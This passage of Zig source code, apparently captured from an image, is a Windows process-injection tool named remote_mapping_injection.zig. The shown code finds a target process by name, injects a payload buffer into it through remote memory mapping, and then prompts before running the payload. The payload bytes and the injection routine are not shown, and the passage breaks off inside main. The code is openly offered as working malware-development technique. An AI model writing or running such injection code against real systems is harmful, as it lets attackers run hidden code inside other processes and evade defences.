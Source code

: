 ```zig name=remote_mapping_injection.zig
            break;
        }

        // Get next process
        if (Process32Next(h_snapshot, &proc) == 0) {
            break;
        }
    }

    return (process_id.* != 0 and process_handle.* != null);
}

fn waitForEnter(message: []const u8) void {
    print("{s}", .{message});
    var buffer: [256]u8 = undefined;
    _ = std.io.getStdIn().reader().readUntilDelimiterOrEof(buffer[0..], '\n') catch {};
}

pub fn main() !void {
    var allocator = std.heap.page_allocator;
    const args = try std.process.argsAlloc(allocator);
    defer std.process.argsFree(allocator, args);

    var hProcess: ?HANDLE = null;
    var hThread: ?HANDLE = null;
    var pAddress: ?PVOID = null;
    var dwProcessId: DWORD = 0;

    if (args.len < 2) {
        print("[!] Usage : \"{s}\" <Process Name>\n", .{args[0]});
        return;
    }

    // Convert process name to UTF-16
    const processName = try std.unicode.utf8ToUtf16LeAllocZ(allocator, args[1]);
    defer allocator.free(processName);

    // Convert to lowercase for comparison
    var lowerProcessName = try allocator.alloc(u16, processName.len);
    defer allocator.free(lowerProcessName);

    for (processName[0 .. processName.len - 1], 0..) |char, i| {
        lowerProcessName[i] = std.ascii.toLower(@intCast(char));
    }

    print("[i] Searching For Process Id Of \"{s}\" ... ", .{args[1]});
    if (!getRemoteProcessHandle(lowerProcessName[0 .. processName.len - 1], &dwProcessId, &hProcess)) {
        print("[!] Process is Not Found\n", .{});
        return;
    }
    print("[+] DONE\n", .{});
    print("[+] Found Target Process Pid: {}\n", .{dwProcessId});

    print("[i] Injecting Target Process ...\n", .{});
    if (!remoteMapInject(hProcess.?, payload[0..], &pAddress)) {
        print("[!] FAILED\n", .{});
        return;
    }
    print("[+] DONE\n", .{});

    waitForEnter("[#] Press <Enter> To Run The Payload ... ");

```